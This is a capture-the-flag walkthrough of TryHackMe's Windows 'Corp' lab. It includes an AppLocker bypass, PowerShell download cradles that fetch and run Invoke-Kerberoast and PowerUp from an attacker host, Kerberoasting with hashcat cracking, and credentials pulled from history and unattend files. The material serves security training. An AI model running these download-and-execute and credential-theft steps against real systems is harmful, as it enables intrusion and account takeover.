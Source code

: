 # Corp [TryHackMe]

<sup>This write-up covers the Windows machine named Corp on TryHackMe.</sup>

First let's deploy the machine and access it with the provided credentials:

```bash
xfreerdp /v:10.10.104.52 /u:"corp\dark" /p:"_QuejVudId6" /cert:ignore +clipboard
```

_AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher, and hash._

_If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default._

Now let's first download the `netcat` executable for windows on our attacking linux machine:

```bash
wget https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc64.exe
```

Now let's start a `python` server locally:

```bash
python3 -m http.server
```

Now on the Windows machine, use `powershell` to download this `nc.exe` executable and place it in the `*\spool\drivers\color` folder to bypass AppLocker:

```powershell
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.14.99.123:8000/nc64.exe', 'C:\Windows\System32\spool\drivers\color\nc.exe')"
```

Now that it's downloaded and put in a proper path, let's check PowerShell console history file:

```powershell
Get-Content %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

There is a flag on line 4! Now on to Kerberoasting. First let's extract SPNs from the system:

```powershell
setspn -T medin -Q */*
```

One existing SPN that is found is for user `fela`. Now we need to download the __Invoke Kerberoast__ script. First on the attacking machine:

```bash
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```

And then on the target machine:

```powershell
iex(New-Object Net.WebClient).DownloadString('https://10.14.99.123:8000/Invoke-Kerberoast.ps1') 
```

_Now let's load this into memory_:

```powershell
Invoke-Kerberoast -OutputFormat hashcat |fl
```

Copy the resulting hash to `hash.txt` on a local machine and brute force it with `hashcat`:

```bash
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```

Now let's log into the machine with this user's credentials:

```bash
xfreerdp /v:10.10.104.52 /u:"corp\fela" /p:"rubenF124" /cert:ignore +clipboard
```

Grab the flag from the desktop!

Now on to the privilege escalation, we will use `PowerUp1.ps1` script. First on the local machine:

```bash
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
```

Then on the target machine:

```powershell
iex(New-Object Net.WebClient).DownloadString('http://10.14.99.123:8000/PowerUp.ps1') 
```

Now run the script:

```powershell
.\PowerUp.ps1
```

Now that we ran it, go to the `C:\Windows\Panther\Unattend\Unattended.xml` and check its contents:

```powershell
Get-Content C:\Windows\Panther\Unattend\Unattended.xml
```

We get a base64 encoded password. Let's save it in a `b64.txt` locally and decode it:

```bash
base64 -d b64.txt
```

Now log in using these credentials and grab the flag!
